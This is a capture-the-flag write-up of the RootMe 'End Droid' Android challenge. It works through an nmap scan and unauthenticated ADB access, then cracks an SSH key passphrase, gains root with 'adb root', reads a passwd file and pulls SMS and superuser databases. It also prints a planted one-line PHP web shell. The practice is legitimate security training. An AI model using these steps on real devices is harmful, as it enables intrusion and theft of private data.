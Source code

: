 ```yaml
---
title: RootMe - End Droid Writeup
date: 2023-10-08
categories: [RootMe, Realistic]
tags: [RootMe, RootMe - Realistic, WriteUp, Android]
author: barabulkit
---
```


# RootMe - End Droid

This challenge is kinda dissappointing for me (honestly i didn't validate it)\
But i will consider like i did, cause i guess i found anything possible, and even the flag, i'm just not able to validate it

This is challenge about android and all we have is the server address, so i started with 

```shell
nmap -PN -sT -sV -p0-65535 ctf04.root-me.org
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-08 19:17 +03
Nmap scan report for ctf04.root-me.org (212.129.28.21)
Host is up (0.074s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5555/tcp open  adb     Android Debug Bridge device (name: android_x86; model: VMware Virtual Platform; device: x86)
8080/tcp open  http    PHP cli server 5.5 or later
22000/tcp open  ssh     Dropbear sshd 2014.66 (protocol 2.0)

Service Info: OS: Android; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.56 seconds
```

We can see that there is ADB service at 5555 port\
lets install adb client to kali and connect to this service
```shell
sudo apt install android-tools-adb android-tools-fastboot
```

And then connect to device
```shell
adb connect ctf04.root-me.org
```

now we can start searching for flag on the server
```shell
ls /mnt/shell/emulated/0
Alarms
Android
Boot_Shell
DCIM
Download
Movies
Music
Podcasts
Ringtones
htdocs
kickwebinfo
obb
passwd
ssh
storage
www
```

I have found what i was looking for there (passwd file), but wasn't able to read it
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

i wasn't knowing why i can't read it yet, so i just continued my investigation\
And found php backdoor
```
adb shell cat /mnt/shell/emulated/0/www/public/announce/backdoor.php
<?php system($_POST['secret']);?>
```

Unfortunately this is not very usefull cause this is the same thing as `adb shell`\
But then i found private ssh key
```shell
adb shell ls /mnt/shell/emulated/0/www/public/secret22000
touhid.key
```

So i pulled it and tried to connect to ssh with it
```shell
adb pull touhid.key
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
```

But got prompted that i need a passphase for this key\
So i cracked this with johntheripper

```shell
ssh2john touhid.key > touhid.hash
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10.txt
john --wordlist=darkweb2017-top10.txt touhid.hash
john --show touhid.hash

touhid.key:qwerty

1 password hash cracked, 0 left
```

But it didn't give me anything, i was not able to connect even with passphrase
```shell
ssh -i touhid.key -p 22000 touhid@ctf04.root-me.org
touhid@ctf04.root-me.org: Permission denied (publickey).
```

Then i went to google to read more about adb and android filesystem\
And i found that i can try to get root with just
```shell
adb root
```

and it worked, but i still couldn't read passwd file
```shell
adb shell cat /mnt/shell/emulated/0/passwd
/system/bin/sh: cat: /mnt/shell/emulated/0/passwd: Permission denied
```

And that was because i read it from wrong location, there is actual storage at `/data/media/0` that is the same as `/mnt/shell/emulated/0`
And i was able to read passwd from it
```shell
adb shell cat /data/media/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

I can even change access rights to this file through `/data/media/0`
```shell
adb shell chmod 777 /data/media/0/passwd
```

And now i can read it even from `/mnt/shell/emulated/0`
```shell
adb shell cat /mnt/shell/emulated/0/passwd
c1937a38926e84f2c5995438afd6e41f
```

And looks like thats it, i have solved the challenge, but i only was able to validate it on virtual env page for this challenge
![validated](/assets/img/rootme/realistic/enddroid/realistic-enddroid.png)

But i wasn't able to validate a challenge with this flag at the challenge page so it still not finished
I even tried to do a bit more, i found flag.txt
```shell
adb shell cat /data/root/flag.txt 
No flag here but you can check your sms :) !
```

But it is not a flag, but there is a hint to check sms.
So i downloaded sms database with
```shell
adb pull /data/data/com.android.providers.telephony/databases/mmssms.db
```

But it was empty, i then downloaded calendar database, downloads database, gmail database, and in all this dbs there was nothing\
I also found another way to obtain flag i already have through superuser database
```shell
adb pull  /data/data/com.thirdparty.superuser/databases/

/data/data/com.thirdparty.superuser/databases/: 4 files pulled, 0 skipped. 0.0 MB/s (119912 bytes in 3.169s)
```

![superuserdb](/assets/img/rootme/realistic/enddroid/enddroiddb.png)

So that is all i was able to find in this challenge and still was not able to validate it, but at least i learned a bit about android\
\
UPD. finally got the flag
![flag](/assets/img/rootme/realistic/enddroid/enddroidflag.png)